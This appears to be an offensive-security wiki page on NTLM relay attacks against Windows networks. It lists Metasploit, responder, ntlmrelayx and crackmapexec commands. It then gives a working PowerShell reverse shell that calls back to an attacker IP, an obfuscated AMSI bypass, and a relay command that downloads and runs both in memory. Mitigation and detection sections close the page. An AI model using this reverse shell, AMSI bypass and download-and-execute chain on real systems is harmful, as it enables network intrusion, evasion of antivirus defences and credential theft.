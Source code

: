 # NTLM Relay

{% hint style="info" %}
#### For a full list of MitM techniques refer to[ MitM & poisoning](../../../network-attacks/network-poisoning-mitm/) section.
{% endhint %}

## <mark style="color:red;">MS08-068</mark>

{% embed url="https://www.rapid7.com/blog/post/2008/11/11/ms08-068-metasploit-and-smb-relay" %}

{% embed url="https://msrc-blog.microsoft.com/2008/11/11/ms08-068-smb-credential-reflection-defense" %}

### <mark style="color:orange;">Metasploit Module</mark>

```
use exploit/windows/smb/smb_relay 
# windows2000 / windows server2008
```

## <mark style="color:red;">NTLM Relay</mark>

```
impacket-ntlmrelayx -tf targets.txt -wh hacker-wpad --delegate-access -smb2support --remove-mic
responder -I vboxnet0 --lm -v -P -F -w -d -b
```

## <mark style="color:red;">NTLM Relay + Empire</mark>

{% embed url="https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html" %}

{% embed url="https://youtu.be/f9oMVoc2Umc" %}

## <mark style="color:red;">NTLM Relay + AMSI Bypass</mark>

{% hint style="info" %}
Combining NTLM relay with empire one-liners is not effective in a modern Active Directory Environment with latest windows security updates because AMSI has evolved and the payload is easily detected and blocked.
{% endhint %}

This technique will use the same principles of NTLM relay but with a simple trick to bypass AMSI and get a reverse shell, the AMSI  bypass script and reverse shell payload can be different but the one i am using here could bypass windows 10  pro update 1/20/2020 with windows defender and AMSI enabled.

#### <mark style="color:green;">find hosts with smb signing disabled:</mark>

```
crackmapexec smb 192.168.56.1/24 --gen-relay-list targets
```

#### <mark style="color:green;">simple powershell TCP reverse shell payload (catch with netcat or metasploit multi/handler):</mark>

{% code title="rev.ps1" %}
```
$client = New-Object System.Net.Sockets.TCPClient('10.11.0.4',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```
{% endcode %}

#### <mark style="color:green;">AMSI bypass payload (try using other payloads if this doesn't work):</mark>

{% code title="bypass.ps1" %}
```
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}

#### <mark style="color:green;">run a python http server to serve these files:</mark>

```
python3 -m http.server 9000
```

#### <mark style="color:green;">run responder and ntlmrelayx with a powershell command to load the scripts in memory and execute them in the same powershell session (otherwise the bypass wont work):</mark>

```
 responder -I vboxnet0 -dw
 
 impacket-ntlmrelayx  --delegate-access -smb2support -tf targets -c "powershell -ep bypass -c IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/bypass.ps1');IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.56.1:9000/rev.ps1')"
```

now when responder gets new hashes, ntlmrelayx will relay them and if the login was successful, power powershell command will load bypass and reverse shell scripts in memory and execute both og them to bypass AMSI and we get a shell.

## <mark style="color:red;">Mitigation</mark>

* Enforce SMB signing - turn on SMB Signing on all machines in the network.
* Block NTLMNv1- NTLMv1 is considered significantly less secure than its more recent version, the NTLMNv2.
* Enforce LDAP/S Signing- to prevent NTLM relay in LDAP, enforce LDAP signing and LDAPS channel binding on domain controllers.
* Enforce EPA- to prevent NTLM relay on web servers, harden them to accept only requests with EPA.
* _**Reduce NTLM usage-**_ even after all measures were taken. The best thing you can do is to simply reduce the NTLM usage. As NTLM poses a significant risk, it is recommended that you remove it where it is not needed.

{% hint style="success" %}
The only way to be totally safe from SMB/NTLM relay attacks is to completely disable NTLM authentication and  switch to Kerberos.

This might not always be possible as a lot of old services and applications have some issues with Kerberos.&#x20;
{% endhint %}

## <mark style="color:red;">Detection</mark>

* Get all NTLM logons where the session has admin privileges
* Get all hostnames and their IPs using one of the methods above
* Use left anti join to find logons where the **Network Address** in the NTLM logon event doesn’t match the IP of the host in step 2.

### <mark style="color:orange;">False Positive/Negative Considerations</mark> <a href="#1c97" id="1c97"></a>

* If you have load balancers or other devices that perform SNAT, authentications coming over these devices will be seen as relayed. These IPs need to be whitelisted. There is a false positive and false negative risk in this case.
* Devices that are not joined to a domain always perform NTLM authentication. Baselining with historical logon events will reduce false positives. Alternatively, hostname and IP address info can be obtained and whitelisted manually.
* NTLM relaying of machine accounts can’t be detected using the above logic if the machine logon events are used as the single source of truth for hostname — IP pair. This is a rare scenario but it might be critical like in the PetitPotam case. Critical computer accounts can be monitored using the same logic and using a manually created hostname-IP list. Since the attack surface most likely is the servers, DNS records might be a good option.
* Sometimes, the **Workstation Name/Network Address** doesn’t appear in the logs.
